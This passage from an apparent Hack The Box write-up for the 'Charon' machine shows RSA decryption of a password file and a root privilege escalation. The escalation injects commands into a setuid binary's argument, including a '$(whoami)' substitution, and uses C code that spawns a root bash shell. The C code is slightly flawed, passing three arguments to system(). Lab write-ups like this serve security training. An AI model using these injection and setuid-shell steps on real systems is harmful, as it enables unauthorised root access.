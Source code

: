 Now we have the password of the user _decoder_:
> nevermindthebollocks

#### Easy way: RSA decryption with tools

This whole process can also be done with the tool [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool):
```markdown
RsaCtfTool.py --publickey decoder.pub --uncipherfile pass.crypt
```

This decrypts the file immediately.

### Privilege Escalation to root

Now we are the user _decoder_ on the box and need to enumerate it with any **Linux Enumeration script**.
After analyzing, there is the non-default executable _/usr/local/bin/supershell_ that has the _setuid_ bit set.

This executable wants a command as a parameter but does nothing.
Lets download it to our local client and analyze it with **Radare2**.

![Analyzing binary with Radare2](https://kyuu-ji.github.io/htb-write-up/charon/charon_binary-1.png)

It loads _/bin/ls_ and a compares it to the parameters given with a `strcmp` function. If the comparison is true, it will execute a `printf` and `setuid` function and send it to `system`.

So if we execute it with _/bin/ls_ it displays the files in the current directory:
```markdown
/usr/local/bin/supershell /bin/ls
```

As it can only have one argument, we can put the `ls` command and another directory into quotes and display the contents of other directories:
```markdown
/usr/local/bin/supershell "/bin/ls /root"
```

This way we can execute other commands like this:
```markdown
/usr/local/bin/supershell "/bin/ls /\$(whoami)"
```

So we can write a program in C that spawns a shell, set the _setuid bit_ on it and execute it as root.

Shell script:
```c
#include <unistd.h>
#include <errno.h>

main( int argc, char ** argv, char ** envp )
{
        setuid(0);
        setgid(0);
        envp = 0;
        system ("/bin/bash", argv, envp);
return;
}
```
